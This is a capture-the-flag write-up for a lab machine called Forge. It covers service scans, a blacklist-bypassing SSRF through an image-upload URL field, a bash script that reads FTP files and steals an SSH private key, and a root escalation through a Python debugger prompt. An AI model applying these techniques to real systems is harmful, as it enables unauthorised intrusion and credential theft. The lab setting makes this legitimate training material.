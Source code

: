 # Forge

## Remote Discovery

> Note: the box IP has been added to the `/etc/hosts` file as `forge.htb`

### Nmap Scan

An `nmap -Sc -Sv 10.10.11.111` yields:
```
Nmap scan report for forge.htb (10.10.11.111)
Host is up (0.076s latency).
Not shown: 997 closed ports
PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:78:65:66:29:e4:87:6b:3c:cc:b4:3a:d2:57:20:ac (RSA)
|   256 79:df:3a:f1:fe:87:4a:57:b0:fd:4e:d0:54:c6:28:d9 (ECDSA)
|_  256 b0:58:11:40:6d:8c:bd:c5:72:aa:83:08:c5:51:fb:33 (ED25519)
80/tcp open     http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Gallery
Service Info: Host: 10.10.11.111; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.71 seconds
```

Looks like we've got an ftp/http server!

### Busting some dirs
Next, we'll run a basic gobuster scan on the server to sniff out any directories.

```
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://forge.htb
...
/server-status        (Status: 403) [Size: 274]
/static               (Status: 301) [Size: 307] [--> http://forge.htb/static/]
/upload               (Status: 200) [Size: 929]
```

We find a `/upload` page that might come in handy... lets try to exploit that first!

If we look for subdomains instead of subdirectories (and grep for 2** statuses), we'll get some more info:
```
$ gobuster vhost -w /usr/share/SecLists/Discovery/DNS/deepmagic.com-prefixes-top50000.txt -u forge.htb > subd.txt && grep "Status: 2" subd.txt
...
Found: admin.forge.htb (Status: 200) [Size: 27]
```

## admin.forge.htb
We can see that `http://admin.forge.htb` is a valid domain, but it kicks us out saying that "only localhost is allowed"... so we need to trick the admin portal into thinking we are localhost... On the `/upload` page, we have the capacity to upload an image via a url. With that, we can pass `http://admin.forge.htb` through, but we get a message stating the url has been __blacklisted__. Luckily, we can just use upper cases and bypass this restriction: `http://ADMIN.FORGE.HTB`.

This yields us a url that, when using `curl`, will give us the html of the landing admin page! On this page, we find a link to a `<a href="/announcements">` page... going there, using the method used before, gives us the announcements page.


### FTP
The `http://admin.forge.htb/announcements` page contains the ftp creds in plain text! So lets create a tool that will leverage this through our existing exploit to get the contents of files!
> Username: user
>
> Password: heightofsecurity123!

```
$ cat ftp_exploit.sh

#!/bin/bash
PAGE='http://ADMIN.FORGE.HTB/upload?u=ftp://user:heightofsecurity123!@LOCALHOST'
ENCPAGE=$( php -r "echo urlencode(\"$PAGE$1\");" )
curl $( curl -s -X POST -d "url=$ENCPAGE&remote=1" http://forge.htb/upload | grep "http://forge.htb/uploads/" | cut --delimiter=">" -f3 | cut --delimiter="<" -f1 )
```

This script allows us to make an ftp request. For example `./ftp_exploit.sh` gives us:
```
drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Oct 13 04:31 user.txt
```

Great! There is the `user.txt` file we have been looking for. Now we can just `./ftp_exploit.sh "/user.txt"` and we'll get the user flag!

### SSH
Now we are going to try to ssh into the server using dumps of creds we can get using our ftp exploit. We can get the ssh key for the user with `./ftp_exploit.sh "/.ssh/id_rsa" > user_hash`.

Using this, we can ssh into the machine without a password:
```
$ ssh -i user_hash user@forge.htb
user@forge:~$
```

## Privesc
Now our goal is getting root access to this machine. Do do this, we will list out some files we have sudo access to (if any):
```
$ sudo -l
...
User user may run the following commands on forge:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py
```

So it seems that we can use `/opt/remote-manage.py` as root. Looking at the file, we see there is a password `secretadminpassword` that we use when making a socket connection to localhost. Next, we'll run a command:
```
$ sudo python3 /opt/remote-manage.py
Listening on localhost:20869
```

The port changes every time we run the program. Next we will connect using python to do some fun:
```
$ python3 -c 'exec("import socket as s\nc=s.socket(s.AF_INET,s.SOCK_STREAM)\nc.connect((\"127.0.0.1\",20869))\ndef t(c,m):\n  c.send(m.encode())\n  print(c.recv(1024).decode())\ni=input(\"password: \")\nwhile i!=\"\":\n  t(c,i)\n  i=input(\"$ \")\n\nexit()")'
password: secretadminpassword
Enter the secret passsword: Welcome admin!

What do you wanna do: 
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit

$ 1');echo('test'
```

From here, we can put some nonsense in and we will get an error on the instance where we started the python program:
```
$ sudo python3 /opt/remote-manage.py
Listening on localhost:20869
invalid literal for int() with base 10: b"1');echo('test'"
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb) 
```

We can actually use `(Pdb) ` as a python prompt with root access... so
```
(Pdb) subprocess.getoutput('cat /root/root.txt')
```
Gets us the root flag!

